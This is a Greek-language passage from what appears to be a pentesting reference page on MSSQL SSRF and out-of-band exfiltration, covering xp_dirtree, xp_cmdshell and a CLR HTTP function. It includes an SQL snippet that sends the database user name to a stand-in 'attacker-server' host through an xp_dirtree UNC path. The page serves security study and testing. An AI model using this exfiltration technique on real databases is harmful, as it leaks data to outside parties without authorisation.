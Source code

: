Οι αποθηκευμένες διαδικασίες όπως η `xp_dirtree`, αν και δεν έχουν τεκμηριωθεί επίσημα από τη Microsoft, έχουν περιγραφεί από άλλους σε απευθείας σύνδεση λόγω της χρησιμότητάς τους στις λειτουργίες δικτύου εντός του MSSQL. Αυτές οι διαδικασίες χρησιμοποιούνται συχνά για την εξαγωγή δεδομένων εκτός ζώνης, όπως φαίνεται σε διάφορα [παραδείγματα](https://www.notsosecure.com/oob-exploitation-cheatsheet/) και [άρθρα](https://gracefulsecurity.com/sql-injection-out-of-band-exploitation/).

Για παράδειγμα, η αποθηκευμένη διαδικασία `xp_dirtree` χρησιμοποιείται για να πραγματοποιήσει αιτήσεις δικτύου, αλλά περιορίζεται μόνο στη θύρα TCP 445. Ο αριθμός θύρας δεν είναι τροποποιήσιμος, αλλά επιτρέπει την ανάγνωση από κοινόχρηστους φακέλους δικτύου. Η χρήση απεικονίζεται στον παρακάτω κώδικα SQL:
```sql
DECLARE @user varchar(100);
SELECT @user = (SELECT user);
EXEC ('master..xp_dirtree "\\' + @user + '.attacker-server\\aa"');
```
Είναι αξιοσημείωτο ότι αυτή η μέθοδος μπορεί να μην λειτουργεί σε όλες τις ρυθμίσεις συστήματος, όπως σε `Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64)` που εκτελείται σε `Windows Server 2016 Datacenter` με τις προεπιλεγμένες ρυθμίσεις.

Επιπλέον, υπάρχουν εναλλακτικές αποθηκευμένες διαδικασίες όπως η `master..xp_fileexist` και η `xp_subdirs` που μπορούν να επιτύχουν παρόμοια αποτελέσματα. Περισσότερες λεπτομέρειες για την `xp_fileexist` μπορούν να βρεθούν σε αυτό το [άρθρο του TechNet](https://social.technet.microsoft.com/wiki/contents/articles/40107.xp-fileexist-and-its-alternate.aspx).

### `xp_cmdshell` <a href="#master-xp-cmdshell" id="master-xp-cmdshell"></a>

Φυσικά, μπορείτε επίσης να χρησιμοποιήσετε την **`xp_cmdshell`** για να **εκτελέσετε** κάτι που θα προκαλέσει ένα **SSRF**. Για περισσότερες πληροφορίες, **διαβάστε τη σχετική ενότητα** στη σελίδα:

{% content-ref url="../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/" %}
[pentesting-mssql-microsoft-sql-server](../../network-services-pentesting/pentesting-mssql-microsoft-sql-server/)
{% endcontent-ref %}

### MSSQL Ορισμένη από τον χρήστη Συνάρτηση - SQLHttp <a href="#mssql-user-defined-function-sqlhttp" id="mssql-user-defined-function-sqlhttp"></a>

Η δημιουργία μιας CLR UDF (Common Language Runtime User Defined Function), η οποία είναι κώδικας που έχει γραφτεί σε οποιαδήποτε γλώσσα .NET και έχει μεταγλωττιστεί σε ένα DLL, για να φορτωθεί μέσα στο MSSQL για την εκτέλεση προσαρμοσμένων λειτουργιών, είναι ένας διαδικασία που απαιτεί πρόσβαση `dbo`. Αυτό σημαίνει ότι συνήθως είναι εφικτό μόνο όταν η σύνδεση στη βάση δεδομένων γίνεται ως `sa` ή με έναν ρόλο Διαχειριστή.

Ένα έργο Visual Studio και οδηγίες εγκατάστασης παρέχονται στο [αποθετήριο Github αυτό](https://github.com/infiniteloopltd/SQLHttp) για να διευκολύνουν τη φόρτωση του δυαδικού αρχείου στο MSSQL ως CLR συλλογή, επιτρέποντας έτσι την εκτέλεση αιτημάτων HTTP GET από το εσωτερικό του MSSQL.

Η καρδιά αυτής της λειτουργικότητας είναι ενσωματωμένη στο αρχείο `http.cs`, το οποίο χρησιμοποιεί την κλάση `WebClient` για να εκτελέσει ένα αίτημα GET και να ανακτήσει περιεχόμενο, όπως φαίνεται παρακάτω:
```csharp
using System.Data.SqlTypes;
using System.Net;

public partial class UserDefinedFunctions
{
[Microsoft.SqlServer.Server.SqlFunction]
public static SqlString http(SqlString url)
{
var wc = new WebClient();
var html = wc.DownloadString(url.Value);
return new SqlString(html);
}
}
```